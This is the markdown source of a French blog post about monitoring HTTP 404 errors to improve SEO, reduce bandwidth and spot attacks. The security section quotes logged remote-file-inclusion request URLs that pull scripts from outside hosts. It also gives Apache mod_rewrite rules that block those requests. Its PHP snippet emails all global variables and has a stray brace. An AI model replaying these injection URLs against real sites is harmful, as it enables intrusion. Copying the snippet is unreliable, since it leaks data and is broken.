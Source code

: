 ```yaml
---
title:      Surveillez vos erreurs 404, elles peuvent être très instructives
lang:       fr
tags:       ["404", SEO, security, WebPerf]
---
```


A l’heure où tout le monde ne jure que par l’optimisation du référencement — on dit Search Engine Optimization, ou SEO, pour faire branché — afin d’augmenter son trafic, et ainsi ses clients potentiels et/ou son revenu publicitaire, qui se soucie de vérifier ce qui se passe pour les internautes qui arrivent bien sur le site, mais sur une page qui n’existe pas, indiquée comme il se doit par une erreur HTTP 404[^erreur] ?

[^erreur]: Oui, c’est la règle, mais certains ne la respectent pas, bien entendu…

Si vous ne vous en souciez pas, commencez tout de suite à le faire, il y a beaucoup à apprendre, et sans doute beaucoup d’améliorations à apporter à votre site.

Le moyen le plus simple de connaître les URL en erreur 404 sur lesquelles arrivent les internautes, c’est d’abord de s’intéresser à celles qui sont référencées dans les moteurs de recherche, dont Google. On peut trouver justement un référencement des pages en erreur, dont celles en 404, au sein des [outils Google pour les webmasters](https://www.google.com/webmasters/tools/).

{% respimg "google-webmasters-404.png", "Erreurs 404 de Gastero Prod référencées par Google", page %}

Une autre méthode plus basique et source potentielle d’explosion de compte mail est de se faire envoyer un mail à chaque requête donnant une erreur. C’est ce que j’ai fait dans mon squelette `404.html` pour Gastero Prod, en donnant au passage quelques informations utiles de contexte d’appel :

```php
<?php
mail('adresse@example.com',
  '[GP404] '.$_SERVER['REQUEST_URI'],
  '#URL_SITE_SPIP'.$_SERVER['REQUEST_URI']."\r\n".'User agent: '.$_SERVER['HTTP_USER_AGENT']."\r\n".'Referer: '.$_SERVER['HTTP_REFERER']."\r\n".print_r($GLOBALS, true),
  'From: adresse@example.com');
}
?>
```

Identifier les erreurs 404 permet d’améliorer un site sur plusieurs sujets :

# La qualité du référencement

Si un internaute arrive sur votre site depuis un moteur de recherche, et tombe sur une erreur 404, c’est qu’il y a un soucis dans votre référencement, sans doute parce que votre site ou un autre site contient des liens qui pointent vers ces mauvaises URL, liens qui existent :

- soit par simple erreur de frappe, ce qu’un bon [outil de gestion de contenus Web](http://www.clever-age.com/veille/clever-link/les-outils-de-gestion-de-contenu.html) devrait permettre d’éviter,
- soit parce que vous avez modifié vos URL, ce qu’il ne faut surtout [pas faire](http://www.w3.org/Provider/Style/URI) !,
- soit parce que des URL déterminées et gérées automatiquement sont mal configurées.

En observant les erreurs 404 relevées par Google, j’ai pu corriger de nombreux problèmes apparus sur Gastero Prod, notamment avec le petit changement opéré sur les URL[^url] pour que les articles du blog ne soient plus à la racine mais dans une sous rubrique blog/ et surtout un mélange entre URL absolues et URL relative, pas encore totalement bien gérées dans SPIP avec des URL arborescentes.

[^url]: Oui, je sais, c’est mal, mais j’ai mis des redirections permanentes au moins, moi ! ;-)

Il n’y a bien entendu pas que le nettoyage des erreurs 404 qui permet d’améliorer la qualité du référencement, mais c’est un autre sujet…

# Les performances, la consommation de bande passante, et donc potentiellement le coût de l’hébergement

Si vous faites en sorte de diminuer les erreurs 404 sur votre site, quelles qu’en soit les causes, les internautes ne téléchargeront que les pages réellement intéressantes, et vous réduirez le gaspillage de ressources de votre serveur, ainsi que la bande passante consommée.

Selon la nature de votre hébergement, cela peut avoir un impact — positif à priori — sur son coût, ce qui peut s’avérer intéressant comme motivation.

# La sécurité

Vous pouvez aussi identifier, dans les erreurs 404, des attaques essayant de profiter de failles de sécurité de solutions packagées.

Par exemple, un requête revenant ces derniers temps dans mes logs de 404 est la suivante :

```
http://www.gasteroprod.com/infoevent.php3?rootagenda=http://love-ma2.t35.com/sistem.txt?
```

En cherchant `infoevent.php3` sur Google, j’ai découvert qu’il s’agit d’un script faisant justement l’objet d’[une faille de sécurité de phpMyAgenda](http://www.securityfocus.com/bid/29164).

Comme par hasard, le client ayant fait cette requête n’est pas un navigateur traditionnel, mais s’identifie comme étant `libwww-perl/5.803`. C’est donc bien un programme qui tente l’attaque, sauf falsification de signature qui serait ici inepte.

Autre exemple avec cette requête :

```
http://www.gasteroprod.com//tags.php?BBCodeFile=http://guhit.com/img/id.txt?
```

Requête qui correspond à [une faille de sécurité de Tagger LE](http://www.securityfocus.com/bid/19464), et qui est demandée comme par hasard aussi par un client `libwww-perl/5.812` !

Dernier exemple avec cette requête :

```
http://www.gasteroprod.com//chat/users_popupL.php3?From=http://www.covoiturage.fr/communities/arab.txt??
```

Requête qui correspond à [une faille de sécurité de phpMyChat](http://osvdb.org/39224)[^pmc], et qui est demandée comme par hasard une fois de plus par un client `libwww-perl/5.805` !

[^pmc]: Oups oups oups ! :-(

Je tiens à signaler aux hackers qui me liraient que je n’utilise aucune de ces applications, ni aucune des nombreuses autres auxquelles s’adressent les autres attaques que je subi…

Faudrait-il donc refuser systématiquement toute requête signée par `libwww-perl` ?

En tout cas, vous pouvez déjà refuser les requêtes clairement identifiables comme des attaques brutales, par exemple comme ceci si vous avez le module `mod_rewrite` pour Apache :

```apache
# Bloquer certaines attaques brutales pas fines
# http://www.securityfocus.com/bid/19464
RewriteCond %{QUERY_STRING} &?BBCodeFile=([^&]+)
RewriteRule tags\.php - [F,L]
# http://www.securityfocus.com/bid/29164
RewriteCond %{QUERY_STRING} &?rootagenda=([^&]+)
RewriteRule infoevent\.php3 - [F,L]
# http://osvdb.org/39224
RewriteCond %{QUERY_STRING} &?From=([^&]+)
RewriteRule users_popupL\.php3 - [F,L]
```

Voilà, vous êtes prévenus, n’ignorez plus vos erreurs 404, agissez !
